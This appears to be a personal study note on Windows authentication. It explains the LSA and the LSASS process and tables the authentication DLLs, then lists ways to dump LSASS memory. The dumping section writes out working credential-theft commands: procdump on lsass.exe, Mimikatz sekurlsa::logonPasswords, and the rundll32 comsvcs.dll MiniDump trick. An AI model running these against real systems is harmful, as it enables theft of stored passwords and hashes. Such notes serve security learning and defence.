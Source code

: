 ```yaml
---
{"dg-publish":true,"permalink":"/attack-computer/attack-windows/1-windows-basic/windows-authentication-system/lsass-local-and-domain/","noteIcon":"","created":"2025-04-15T14:11:19.617-04:00"}
---
```




### 1.0 Local Security Authority Subsystem Service
LSASS is a process rather than a file. As we can see from `Task Manager`, it runs as SYSTEM.  
![](https://i.imgur.com/KLds609.png)

According to Microsoft's website: 

> The LSA security subsystem provides services to both the kernel mode and user mode for validating access to objects, checking user privileges, and generating audit messages.

![](https://i.imgur.com/E7SRmLB.png)

https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc961760(v=technet.10)?redirectedfrom=MSDN

I noticed LSA and LSASS from the above website, but I simply had no clue what they were. A quick description of LSA and LSASS was found on StackExchange:

> There is "LSA" the concept, and "lsass.exe," a process that implements many of the functions of LSA.

https://superuser.com/questions/1370871/what-is-the-relation-between-lsa-and-lsass-in-windows

---

### Authentication-Related Files

| **File Name**    | **Description**                                                                                                                                        |
| ---------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Netlogon.dll** | Manages the computer's secure channel to a domain controller, passing credentials securely and handling replication for Windows NT domain controllers. |
| **Msv1_0.dll**   | Implements the NTLM authentication protocol for clients that don’t use Kerberos.                                                                       |
| **Schannel.dll** | Provides Secure Sockets Layer (SSL) authentication over encrypted channels.                                                                            |
| **Kerberos.dll** | Implements the Kerberos v5 authentication protocol.                                                                                                    |
| **Kdcsvc.dll**   | Kerberos Key Distribution Center (KDC) service, responsible for issuing ticket-granting tickets.                                                       |
| **Lsasrv.dll**   | The Local Security Authority (LSA) server service, which enforces security policies.                                                                   |
| **Samsrv.dll**   | Manages the Security Accounts Manager (SAM), storing local accounts and enforcing policies.                                                            |
| **Ntdsa.dll**    | The directory service module supporting Windows replication and LDAP, managing data partitions.                                                        |
| **Secur32.dll**  | A multiple authentication provider that integrates various authentication components.                                                                  |

---

### 1.1 LSASS Memory Dump

According to [MITRE](https://attack.mitre.org/techniques/T1003/001/), credentials in the LSASS process memory can be dumped in many ways.

#### 1.1.1 ProcDump
```bash
procdump -ma lsass.exe lsass_dump
```

#### 1.1.2 Mimikatz
```bash
sekurlsa::Minidump lsassdump.dmp
sekurlsa::logonPasswords
```

#### 1.1.3 Built-in Windows Tools - comsvcs.dll
```bash
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump PID lsass.dmp full
```

#### 1.1.4 Task Manager
![](https://i.imgur.com/EnEyDrY.png)

#### 1.1.5 Process Explorer
![](https://i.imgur.com/5felLNA.png)

---
